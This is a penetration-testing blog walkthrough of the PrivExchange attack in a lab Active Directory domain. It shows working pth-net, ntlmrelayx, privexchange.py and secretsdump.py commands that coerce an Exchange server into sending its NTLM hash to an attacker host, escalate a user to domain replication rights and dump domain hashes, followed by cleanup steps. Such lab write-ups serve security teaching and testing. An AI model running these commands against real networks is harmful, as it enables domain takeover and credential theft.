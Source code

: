 ```yaml
---
layout: single
classes: wide
title:  "Exploiting PrivExchange"
date:   2019-04-11 10:02:00 +0100
---
```


This is not my discovery, and is merely an expansion and demo of how to use the PrivExchange.
[Abusing Exchange: One API call away from Domain Admin](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)

## Overview

The "PrivExchange” tool simply logs in on Exchange Web Services to subscribe to push notifications. This will make the Exchange server's machine account send its NTLMv2 hash back to your box. As this account usually has severely high privileges in the domain, it can then be relayed to gain domain privilege escalation.

## Prerequisites

- [PrivExchange](https://github.com/dirkjanm/PrivExchange.git) and [Impacket](https://github.com/SecureAuthCorp/impacket) toolkit installed.
- Domain Name, DC IP, Exchange Server, and your Attack host IP.
- A host on the network with the ability to run your tools.
- A valid domain user account and password (or NTLM hash).
- A valid Exchange Server hostname or IP address. We can check this with pth-net from [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit)
   
      pth-net rpc group members "Exchange Servers" -I dc01.lab.local -U lab/buff

![pth-net rpc](../assets/img/privexchange/rpc.jpg)

### The different components of the attack

- `lab.local` - Domain Name
- `dc01.lab.local` - Domain Controller
- `mail01.lab.local` - Exchange Server
- `192.168.0.142` - Attacker host

## Exploitation Steps

Run `NTLMRelayX`  with the DC IP that we want to relay to.

    ntlmrelayx.py -t ldap://dc01.lab.local --escalate-user buff

![escalate-user buff](../assets/img/privexchange/2019-04-11-10-27-34.png)

Use the "PrivExchange” tool to send push notification to your own NTLM Relay server. The `-ah` parameter denotes the `attacking host` and the parameter after is the Exchange server. We also have to give it out current username and password.

    python privexchange.py -ah 192.168.0.142 mail01.lab.local -d lab.local -u chry -p Welcome1

![](../assets/img/privexchange/2019-04-11-10-33-01.png)

Things start happening in the relaying window. We can see a request coming in from the `MAIL01$` machine account.

![](../assets/img/privexchange/2019-04-11-11-11-36.png)

Once the user in our control obtains `Replication-Get-Changes-All` privileges in the domain we can run `secretsdump.py` to dump hashes from the domain controller.

    secretsdump.py lab/buff@192.168.0.2 -ntds ntds -history -just-dc-ntlm

![](../assets/img/privexchange/2019-04-11-10-43-45.png)

### **Wireshark.**

We first see the API call on HTTPS go to the Exchange server. Followed by 1 minute of waiting, we see a connection negotitation happen initiated from the Exchange server, followed by our Kali box POSTing the /privexchange URL.

![](../assets/img/privexchange/2019-04-11-10-44-01.png)

Followed by the relay to LDAP
![](../assets/img/privexchange/2019-04-11-12-31-08.png)

## Cleanup

### Using aclpwn

Any ACL attack using ntlmrelayx saves a restore file that can be provided to [aclpwn.py](https://github.com/fox-it/aclpwn.py) to restore the original permissions on the domain object.

    python aclpwn.py --restore ../aclpwn-20190319-125741.restore
    
![](../assets/img/privexchange/2019-04-11-12-27-42.png)

### Using GUI

In "Active Directory Users and Computers”, enable Advanced Features (in View Menu), Right-click [Domain -> Security -> Advanced]. Then look for the domain username account that you just gave "Replicating Directory Changes” and "Replicating Directory Changes All” privileges to and remove those Permission entries in the "Allow” checkboxes.

For example, if we use ADSI Edit to view the properties of the domain object, we can see that the domain user account we gave DCsync privileges have those privs:

![](../assets/img/privexchange/2019-04-11-10-42-24.png)

## Links

- [https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)
- [https://github.com/dirkjanm/PrivExchange](https://github.com/dirkjanm/PrivExchange) - Python
- [https://github.com/G0ldenGunSec/PowerPriv](https://github.com/G0ldenGunSec/PowerPriv) - Powershell version)
- [https://github.com/panagioto/SharpExchangePriv](https://github.com/panagioto/SharpExchangePriv) - C#